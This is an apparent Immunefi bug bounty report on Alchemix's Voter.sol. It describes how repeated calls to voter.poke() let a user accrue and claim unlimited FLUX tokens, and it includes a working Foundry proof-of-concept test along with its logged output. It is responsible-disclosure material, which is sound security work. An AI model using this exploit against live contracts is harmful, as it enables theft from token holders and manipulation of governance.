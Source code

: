 
# Infinite minting of FLUX through `voter.poke()`

Submitted on Thu May 02 2024 19:32:01 GMT-0400 (Atlantic Standard Time) by @Django for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30650

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
A user can mint infinite FLUX token by simply calling `voter.poke()` as many times as they want. Each time `poke()` is called, it subsequently calls `_vote()` which calls `FLUX.accrueFlux()`, allowing a user to mint at will.

## Vulnerability Details
A user accrues FLUX through voting and resetting their token after each voting epoch. Quite simply, a user can use the `voter.poke()` function as many times as possible to accrue infinite unclaimed FLUX, and then claim the FLUX in the `FluxToken.sol` contract.

```
    function poke(uint256 _tokenId) public {
        /...


        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```

```
    function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
        _reset(_tokenId);


        ...


        IFluxToken(FLUX).accrueFlux(_tokenId);
}
```

```
    function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```

## Impact Details
- Infinite minting of FLUX will steal value from token holders
- Infinite FLUX allows for infinite boosting of voting power and governance manipulation

## Output from POC
The POC simply calls poke 10 times without changing the block number or timestamp.

```
[PASS] testAccrueFluxByPoke() (gas: 1657988)
Logs:
  FLUX Balance 2908413273694656603
  FLUX Balance 3865098966228530943
  FLUX Balance 4821784658762405283
  FLUX Balance 5778470351296279623
  FLUX Balance 6735156043830153963
  FLUX Balance 7691841736364028303
  FLUX Balance 8648527428897902643
  FLUX Balance 9605213121431776983
  FLUX Balance 10561898813965651323
  FLUX Balance 11518584506499525663
```

        
## Proof of concept
## Proof of Concept

```
    function testAccrueFluxByPoke() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.startPrank(admin);

        uint256 claimedBalance = flux.balanceOf(admin);
        uint256 unclaimedBalance = flux.getUnclaimedFlux(tokenId);

        assertEq(claimedBalance, 0);
        assertEq(unclaimedBalance, 0);

        voter.reset(tokenId);

        unclaimedBalance = flux.getUnclaimedFlux(tokenId);
        uint256 fluxEachEpoch = veALCX.claimableFlux(tokenId);

        // Claimed balance is equal to the amount able to be claimed
        assertEq(unclaimedBalance, veALCX.claimableFlux(tokenId));

        hevm.warp(block.timestamp + nextEpoch);

        voter.reset(tokenId);

        // Add this voting periods claimable flux to the unclaimed balance
        unclaimedBalance += veALCX.claimableFlux(tokenId);

        // The unclaimed balance should equal the total amount of unclaimed flux
        assertEq(unclaimedBalance, flux.getUnclaimedFlux(tokenId));

        // maliciously poke 10 times
        for (uint256 i = 0; i < 10; i++) {
            voter.poke(tokenId);
            flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
            console.log("FLUX Balance %s", flux.balanceOf(admin));
        }

        hevm.stopPrank();
    }
```